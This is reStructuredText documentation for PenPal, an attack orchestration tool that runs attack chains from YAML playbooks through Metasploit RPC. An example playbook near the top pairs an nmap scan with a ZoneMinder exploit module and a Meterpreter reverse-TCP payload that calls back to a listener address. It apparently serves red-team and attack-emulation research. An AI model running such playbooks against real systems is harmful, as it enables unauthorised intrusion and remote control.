 .. _Overview:

********
Overview
********

PenPal ships with a executable stub called "penpal" that can be called like follows:

.. code-block::

   penpal -h
   usage: penpal [-h] --config CONFIG [--version]

   PenPal is an attack orchestration tool that executes full attack-chains based on playbooks.

   options:
     -h, --help       show this help message and exit
     --config CONFIG  Attack-Playbook in yaml-format
     --version        show program's version number and exit

   (Austrian Institute of Technology) https://aecid.ait.ac.at Version: 1.0.0

The configuration-file is in yaml-format. The following yaml-file is an example of a playbook.yml:

.. code-block:: yaml

   ###
   msf_config:
     password: hackhelfer
     server: 10.18.3.86

   vars:
     $SERVER_ADDRESS: 192.42.0.254

   commands:
     - type: shell
       cmd: nmap $SERVER_ADDRESS
       error_if: .*test.*

     - type: msf-module
       cmd: exploit/unix/webapp/zoneminder_snapshots
       creates_session: "foothold"
       options:
         RHOSTS: 192.42.0.254
       payload_options:
         LHOST: 192.42.2.253
       payload: cmd/unix/python/meterpreter/reverse_tcp

**********
cmd_config
**********

cmd_config stores global variables for command options. This means that these settings
affect all commands.

.. code-block:: yaml

   ###
   cmd_config:
     loop_sleep: 5

loop_sleep
----------

* Type: int
* Default: 5

All commands can be configured to be executed in a loop. For example: if a command
does not deliver the expected output, the command can be executed again until the
output has the expected value. Between the executions can be a sleep time of certain
seconds.


**********
msf_config
**********

msf_config holds settings for the Metasploit modules and sessions.
Most of these settings control the Metsaploit RPC connection.

.. code-block:: yaml

   ###
   msf_config:
     password: top-secret
     server: 10.18.3.86

server
------

* Type: str
* Default: 127.0.0.1

This option stores the servername or ip-address of the msfrpcd


password
--------

* Type: str
* Default: None

This option stores the password of the rpc-connection.

ssl
---

* Type: bool
* Default: True

This option enables encryption for the rpc-connection

port
----

* Type: int
* Default: 55553

This option sets the port for the rpc-connection.

uri
---

* Type: str
* Default: /api/

This option sets uri of the rpc-api.

****
vars
****

Variables can be defined in the key/value-format. The variables
can be used in certain configuration places and are just placeholders
for the values. Currently they can only be used for "cmd"

.. code-block:: yaml

   ###
   msf_config:
     password: top-secret
     server: 10.18.3.86

   vars:
     $SERVER_ADDRESS: 192.42.0.254
     $NMAP: /usr/bin/nmap

   commands:
     - type: shell
       cmd: $NMAP $SERVER_ADDRESS

********
commands
********

This setting holds a list of commands that are executed sequentially from
top to bottom.

Every command, regardless of the type has the following options:

**error_if**:

* Type: str

If this option is set, an error will be raised if the string was found in the output
of the command.

**error_if_not**:

* Type: str

If this option is set, an error will be raised if the string was not found in the output
of the command.


**loop_if**:

* Type: str

If this option is set, the command will be executed again if the string was found in the
output of the command.

**loop_if_not**:

* Type: str

If this option is set, the command will be executed again if the string was not found in the
output of the command.

**loop_count**:

* Type: int
* Default: 3

This option controlls how often a command should be re-executed if loop_if ord loop_if_not is set.

**cmd**:

* Type: str

This option stores the command that will be executed. This option might be implemented individually
in each command-type.


shell
-----

This command executes local shell-commands.

cmd
~~~

* Type: str

cmd stores the command-line that should be executed locally.

.. code-block:: yaml

   ###
   msf_config:
     password: top-secret
     server: 10.18.3.86

   vars:
     $SERVER_ADDRESS: 192.42.0.254
     $NMAP: /usr/bin/nmap

   commands:
     - type: shell
       cmd: $NMAP $SERVER_ADDRESS

sleep
-----

This command sleeps a certain amount of time.

.. code-block:: yaml

   ###
   commands:
     - type: sleep
       seconds: 60


min_sec
~~~~~~~

* Type: int
* Default: 0

This option defines the minimum seconds to sleep. This
is only relevant if option *random* is set to True

seconds
~~~~~~~

* Type: int
* Default: 1

This options sets the seconds to sleep. If the option
*random* is set to True, this option is the maximum time
to sleep.

random
~~~~~~

* Type: bool
* Default: False

This option allows to randomize the seconds to wait. The minimum
and maximum seconds for the range can be set by *min_sec* and
*seconds*.

The following example will take a random amount of seconds between 30 seconds
and 60 seconds:

.. code-block:: yaml

   ###
   commands:
     - type: sleep
       seconds: 60
       min_sec: 30


cmd
~~~

* Type: str
* Default: "sleep"

This option is ignored
